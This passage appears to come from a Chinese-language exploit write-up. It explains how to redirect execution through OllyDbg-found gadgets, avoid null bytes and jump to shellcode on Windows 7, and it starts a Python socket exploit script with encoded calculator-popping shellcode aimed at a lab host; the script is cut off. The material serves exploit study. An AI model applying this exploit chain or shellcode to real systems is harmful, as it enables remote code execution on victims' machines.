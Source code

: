 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>也就是说会把esi偏移0x10处也就是0x43B68D0的数据放入edx然后调用edx+0x28这个地址。也就是说如果我们在0x43B68D0处放入0x43B68D4-0x28，那么程序就会去call 0x43B68D4，这时候我们在0x43B68D4里放上call esi这个gadget的地址（**ollydbg找gadget可以用alt+E后用search for->all commands**），那么就会有call 0x43B68C0的效果，在这里我们继续放gadget跳至shellcode，gadget可以是“sub esi-0x28   jmp esi”，为什么不直接"add esi,0x28"是因为这样数据中会有"\x00"，这就像是EOF会让软件以为到了结尾中断接收。最终gadget的机器码就是"\x81\xee\xe8\xff\xff\xff" + "\xff\xe6"。shellcode就用了弹计算器。</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>我的win7有aslr，所以在调试时手动把0x43B68D0处的数据根据实际情况调整了一下之后就可以了。最终效果如下：</font></br>

![最终结果](./screenshot/最终结果.jpg)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>我的脚本没加绕过aslr的代码，写的比较简单：</font></br>

```python
import socket
import struct
target = "10.211.55.5"
port = 80

shellcode = (
"\xd9\xcb\xbe\xb9\x23\x67\x31\xd9\x74\x24\xf4\x5a\x29\xc9" +
"\xb1\x13\x31\x72\x19\x83\xc2\x04\x03\x72\x15\x5b\xd6\x56" +
"\xe3\xc9\x71\xfa\x62\x81\xe2\x75\x82\x0b\xb3\xe1\xc0\xd9" +
"\x0b\x61\xa0\x11\xe7\x03\x41\x84\x7c\xdb\xd2\xa8\x9a\x97" +
"\xba\x68\x10\xfb\x5b\xe8\xad\x70\x7b\x28\xb3\x86\x08\x64" +
"\xac\x52\x0e\x8d\xdd\x2d\x3c\x3c\xa0\xfc\xbc\x82\x23\xa8" +
"\xd7\x94\x6e\x23\xd9\xe3\x05\xd4\x05\xf2\x1b\xe9\x09\x5a" +
"\x1c\x39\xbd"
)

#payload = 'A'*1000
call_edi=0x10016463
```